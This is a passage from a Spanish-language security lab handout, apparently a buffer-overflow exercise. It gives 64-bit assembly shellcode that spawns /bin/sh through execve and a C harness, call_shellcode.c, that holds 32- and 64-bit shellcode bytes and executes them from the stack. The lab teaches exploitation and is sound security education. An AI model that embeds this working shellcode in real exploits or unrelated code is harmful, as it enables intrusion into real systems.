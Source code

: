 \subsection{Shellcodede 64-bits} 

A continuación proveemos el mismo shellcode pero es la versión de 64-bits, la única diferencia que existe son los nombres de los registros que se usan para  \texttt{execve()} como así el valor de la llamada al sistema. Se dará una breve explicación en la sección de los comentarios pero no se dará un resumen detallado del shellcode.


\begin{lstlisting}[language={[x86masm]Assembler}]
xor  rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov  rax, '/bin//sh' ; the command we want to run
push rax             ; 
mov  rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument 
push rdx             ; argv[1] = 0
push rdi             ; argv[0] --> "/bin//sh"
mov  rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor  rax, rax
mov  al,  0x3b       ; execve()'s system call number
syscall              
\end{lstlisting}



\subsection{Tarea: Invocando el Shellcode} 

Hemos generados el código binario del shellcode hecho en ensamblador y hemos puesto ese codigo dentro de un programa hecho en C llamado \texttt{call\_shellcode.c} dentro del directorio \texttt{shellcode}. Si desea aprender como generar el código binario por su cuenta, le recomendamos el laboratorio de Shellcode.
En esta Tarea, haremos un testeo del shellcode.

\begin{lstlisting}[language=C, caption=\texttt{call\_shellcode.c}, label=call_shellcode]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;
   func();                 // Invoke the shellcode from the stack
   return 1;
} 
\end{lstlisting}

